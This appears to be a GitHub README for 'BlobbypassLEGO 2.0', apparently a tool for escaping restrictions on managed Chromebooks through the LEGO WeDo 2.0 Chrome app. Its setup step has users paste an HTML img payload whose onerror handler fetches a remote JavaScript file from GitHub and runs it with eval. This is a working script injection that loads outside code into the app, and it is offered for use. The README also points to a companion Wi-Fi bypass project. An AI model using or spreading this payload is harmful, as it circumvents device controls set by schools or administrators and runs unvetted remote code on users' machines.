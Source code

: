 # BlobbypassLEGO 2.0

### Setup:
* First, install [WeDo 2.0 LEGO® Education](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Webstore.
* Wait until it loads*
* Once you are in the project, click on the pencil in the top bar.
* Then, click the green document button.
* In the textbox, paste the following string:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Ajayadla/Blobbypasscode/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```

### How to use (after Setup):
* Open LEGO WeDo 2.0 (with WiFi turned on).
* Click the project you made when you were setting this up.
* Press the pencil in the top bar.
* Done!
  
#### This does not bypass Wi-Fi restrictions. If you want to do that, do [Blobwifi](https://github.com/Ajayadla/Blobwifi).
